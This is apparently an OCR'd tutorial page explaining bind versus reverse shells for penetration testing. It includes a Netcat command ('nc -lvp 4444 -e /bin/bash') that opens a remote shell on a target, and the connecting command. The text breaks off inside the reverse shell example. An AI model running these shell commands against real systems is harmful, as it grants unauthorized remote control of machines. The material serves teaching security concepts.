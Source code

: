 # **difference between bind and reverse shell** 
Reverse and bind shells are two methods used in penetration testing to gain remote access to a target system. Let's break down the differences between them and provide examples of each.

### Bind Shell

A bind shell is where the target system opens up a listening port and waits for a connection from the attacker's machine. The attacker then connects to this port to gain access.

#### How it works:

1. The target system opens a specific port and waits for incoming connections.
2. The attacker connects to the target system's IP address and port.
3. Once connected, the attacker has a shell on the target system.

#### Example using Netcat:

**On the target system:**

bash

Copy code

`nc -lvp 4444 -e /bin/bash`

This command tells Netcat (`nc`) to listen on port 4444 and execute `/bin/bash` when a connection is made.

**On the attacker's system:**

bash

Copy code

`nc <target-ip> 4444`

Replace `<target-ip>` with the target system's IP address. This connects the attacker to the target system's shell.

### Reverse Shell

A reverse shell is where the target system connects back to the attacker's machine. The attacker listens on a specific port, and the target system initiates the connection to that port.

#### How it works:

1. The attacker opens a listening port on their machine.
2. The target system initiates a connection back to the attacker's machine on this port.
3. Once connected, the attacker has a shell on the target system.

#### Example using Netcat:

**On the attacker's system:**

bash

Copy code
